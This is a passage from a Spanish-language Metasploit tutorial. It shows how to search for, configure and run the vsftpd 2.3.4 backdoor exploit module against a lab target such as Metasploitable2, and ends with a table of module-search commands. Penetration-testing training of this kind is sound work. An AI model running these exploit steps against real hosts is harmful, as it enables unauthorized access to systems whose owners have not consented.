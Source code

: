 Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 3: Verifica detalles del módulo

```bash
info exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 4: Usar el módulo

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 5: Establece parámetros necesarios

```bash
set RHOST 192.168.1.105
```

> Asegúrate de que el objetivo es vulnerable (por ejemplo, usando Metasploitable2).

---

#### Paso 6: Ejecuta el exploit

```bash
exploit
```

¡Y listo! Si todo salió bien, tendrás acceso a la víctima.

---

### ✅ Resumen práctico

| Acción                  | Comando Ejemplo                             |
| ----------------------- | ------------------------------------------- |
| Buscar cualquier módulo | `search smb`                                |
| Buscar por tipo         | `search type:exploit`                       |
| Buscar por CVE          | `search cve:2017-0144`                      |
| Buscar por plataforma   | `search platform:linux`                     |
| Ver info de módulo      | `info exploit/unix/ftp/vsftpd_234_backdoor` |
| Usar módulo             | `use exploit/unix/ftp/vsftpd_234_backdoor`  |

---